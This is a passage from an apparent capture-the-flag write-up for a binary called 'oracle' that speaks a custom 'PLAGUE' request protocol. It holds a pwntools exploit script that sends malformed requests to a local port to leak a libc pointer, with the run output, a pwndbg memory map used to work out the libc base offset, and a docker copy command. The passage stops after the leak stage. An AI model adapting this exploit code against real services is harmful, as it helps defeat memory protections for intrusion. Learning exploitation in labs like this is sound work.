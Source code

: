 ```python
from pwn import *

IP = '127.0.0.1'
PORT = 9001

context.binary = './challenge/oracle'

# create chunks, including buffer chunk
p = remote(IP, PORT)
p.send(b'PLAGUE /huh HTTP/1.1\r\nContent-Length: 200\r\nPlague-Target: test\r\n\r\nf')
p.close()

# libc leak
p = remote(IP, PORT)
p.send(b'PLAGUE /huh HTTP/1.1\r\nContent-Length: 200\r\nPlague-Target: test\r\n\r\nf')

p.recvuntil(b'plague: ')
p.recv(8)       # may as well ignore corrupted pointer and take the second
leak = u64(p.recv(8))
log.success(f'Leak: 0x{leak:x}')
p.close()
```

We successfully get a leak:

```sh
$ python3 exploit.py 
[+] Opening connection to 127.0.0.1 on port 9001: Done
[*] Closed connection to 127.0.0.1 port 9001
[+] Opening connection to 127.0.0.1 on port 9001: Done
[+] Leak: 0x7f60ce5d3be0
[*] Closed connection to 127.0.0.1 port 9001
```

The leak is constant, so that's good news. We can use the GDB to find the actual offset from libc base:

```gdb
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
[...]
    0x7f60ce3e7000     0x7f60ce409000 r--p    22000      0 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7f60ce409000     0x7f60ce581000 r-xp   178000  22000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7f60ce581000     0x7f60ce5cf000 r--p    4e000 19a000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7f60ce5cf000     0x7f60ce5d3000 r--p     4000 1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7f60ce5d3000     0x7f60ce5d5000 rw-p     2000 1eb000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
[...]
```

The offset is `0x1ecbe0`. We'll copy the libc version out of the docker image so we can reference it in our script.

```sh
$ docker cp oracle:/usr/lib/x86_64-linux-gnu/libc-2.31.so .
```

